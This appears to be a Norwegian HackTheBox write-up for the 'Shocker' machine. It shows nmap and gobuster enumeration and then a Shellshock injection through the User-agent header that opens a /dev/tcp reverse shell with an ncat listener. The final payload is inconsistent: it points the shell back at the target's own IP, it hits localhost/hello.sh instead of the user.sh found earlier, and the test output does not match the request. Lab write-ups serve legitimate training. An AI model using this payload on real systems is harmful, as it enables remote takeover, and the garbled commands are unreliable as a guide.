


# Shocker
### nmap

```
nmap -sV -sC 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-14 20:19 CET
Nmap scan report for 10.10.10.56
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

### Hva vi gjør:
Det første vi gjør er å gå inn på nettsiden, der ser vi ikke mye annet dette:

<p>Deretter kjører vi gobuster for å finne directories i nettsiden. Vi finner cgi-bin, server-status og /icons/READme.</p>
Jeg vil gjerne se mer av cgi-bin, så jeg kjører gobuster videre fra /cgi-bin/

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl
```
Vi finner kjapt: <b>user.sh</b>.
<p>Med litt kjapp google søk finner vi denne <a href="https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock">artikklen</a></p>
Vi kjører en test:

```
curl -H "User-agent: myuseragent" http://10.10.10.56/cgi-bin/user.sh

vulnerable

Content-Type: text/plain
Just an uptime test script
```
Dette betyr vi kan injecte commands til maskinen og vi gjør da et reverse shell!

```
ncat -lvnp 1234

curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.56/1234 0>&1" http://localhost/cgi-bin/hello.sh
```

Og vi har shell!

